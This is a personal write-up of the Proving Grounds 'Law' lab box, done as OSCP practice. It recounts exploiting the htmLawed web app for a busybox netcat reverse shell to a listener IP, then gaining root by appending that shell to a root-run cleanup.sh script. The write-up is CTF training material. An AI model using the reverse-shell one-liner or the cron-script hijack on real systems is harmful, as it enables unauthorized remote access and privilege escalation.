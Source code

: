 ```yaml
---
layout: writeup
title: Law - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Law Box from Proving Grounds
image: # /assets/images/Law/Law_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, TJ Null]
---
```


Here is a writeup for the Law lab on [Proving Grounds](https://www.offsec.com/labs/), another box from TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). Let's kick things off as usual with an nmap scan, using `-v` so we can investigate as we go. We see there is a web server on port 80 and check it out. 

![Law_1.png](/assets/images/Law/Law_1.png){: .center-aligned width="600px"}

From the project's github, HTMLawed is "a highly customizable PHP script to sanitize / make (X)HTML secure against XSS attacks, so users can edit HTML without risk of your site getting compromised by evildoers." Noted.

We find an exploit-db shell script, but through Google rather than exploit-db or searchsploit because it is actually misspelled with two "L's". 

![Law_4.png](/assets/images/Law/Law_4.png){: .center-aligned width="600px"}

It seems to work immediately with the busybox shell: `busybox nc 192.168.45.154 80 -e /bin/bash`. Exciting, I feel like I never see that. Maybe the privesc is the tough part. 

![Law_3.png](/assets/images/Law/Law_3.png){: .center-aligned width="600px"}

This time I `cd ..` my way out of the working directory in case I see a local.txt file, and I do in `/var/www`. Cool. I missed that on the Crane box. 

I can't run `sudo -l` without a password, and I don't see any interesting SUID binaries when I run `find / -type f -perm -u=s 2>/dev/null`, so I download linpeas to check things out and run it. Unfortunately nothing jumps out at me immediately beyond kernel exploits like PwnKit and DirtyPipez. Usually I want to avoid this in a lab environment like this as it is likely the creators had a different path planned, but I'll make a note of them. 

I download and run pspy64 to see if I can find anything interesting there while I think, and I see this: `2024/07/20 17:48:01 CMD: UID=0     PID=14435  | /bin/bash /var/www/cleanup.sh` run a few times. That could be interesting if root is running it, and we can modify. We can tell root is running it because it says the `UID=0`. We could also tell if we ran `lse.sh -l1`, but not linpeas. 

Turns out we can, so we add the busybox shell to the cleanup script and wait. 

![Law_2.png](/assets/images/Law/Law_2.png){: .center-aligned width="600px"}

![Law_5.png](/assets/images/Law/Law_5.png){: .center-aligned width="600px"}

A minute later, we catch a root shell, and snag the proof.txt. Nice!

This machine was fairly straightforward once I googled the web service and realized it was misspelled. Then is was just a matter of seeing what processes were running and realize I could abuse one of them. Also - another win for the busybox shell, that's good to know. 